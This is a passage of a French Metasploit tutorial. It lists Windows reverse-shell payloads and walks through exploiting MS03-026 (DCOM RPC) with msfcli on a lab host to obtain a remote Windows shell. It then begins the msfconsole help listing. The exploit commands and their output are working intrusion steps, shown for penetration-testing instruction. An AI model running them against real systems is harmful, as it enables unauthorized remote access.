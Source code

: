 ```text
Payload  
win32_reverse  
Windows Reverse Shell  
win32_reverse_dllinject Windows Reverse DLL Inject  
win32_reverse_meterpreter Windows Reverse Meterpreter DLL Inject  
win32_reverse_ord  
Windows Staged Reverse Ordinal Shell  
win32_reverse_ord_vncinject Windows Reverse Ordinal VNC Server 
Inject  
win32_reverse_stg  
Windows Staged Reverse Shell  
win32_reverse_stg_upexec Windows Staged Reverse Upload/Execute  
win32_reverse_vncinject Windows Reverse VNC Server Inject  
framework2 # 
```

Nous allons utiliser un bind shell \(win32\_bind\) et choisir la cible \(T\) :

```text

framework2# ./msfcli msrpc_dcom_ms03_026 RHOST=192.168.9.14 
PAYLOAD=win32_bind T  
Supported Exploit Targets  
=========================  
0 Windows NT SP3-6a/2K/XP/2K3 English ALL  
framework2 # 
```

Nous pouvons maintenant lancer l’exploit ainsi créé.

```text

framework2#./msfcli msrpc_dcom_ms03_026 RHOST=192.168.9.14 
PAYLOAD=win32_bind E 
[*] Starting Bind Handler.  
[*] Sending request...  
[*] Got connection from 192.168.9.100:36687 <-> 192.168.9.14:4444
Microsoft Windows XP [Version 5.1.2600]  
(C) Copyright 1985-2001 Microsoft Corp.  
C:\WINDOWS\system32> 
```

Nous obtenons un shell Windows de la machine distante.

#### b. Metasploit Console \(MSFCONSOLE\)

Nous allons refaire la même chose mais avec msfconsole :

```text

framework2 # ./msfconsole  
+ -- --=[ msfconsole v2.7 [157 exploits - 76 payloads]  
msf > help  
Metasploit Framework Main Console Help  
? Show the main console help  
cd Change working directory  
exit Exit the console  
help Show the main console help  
info Display detailed exploit or payload information  
quit  
Exit the console  
reload Reload exploits and payloads  
save Save configuration to disk  
setg Set a global environment variable  
show Show available exploits and payloads  
unsetg Remove a global environment variable  
use  
```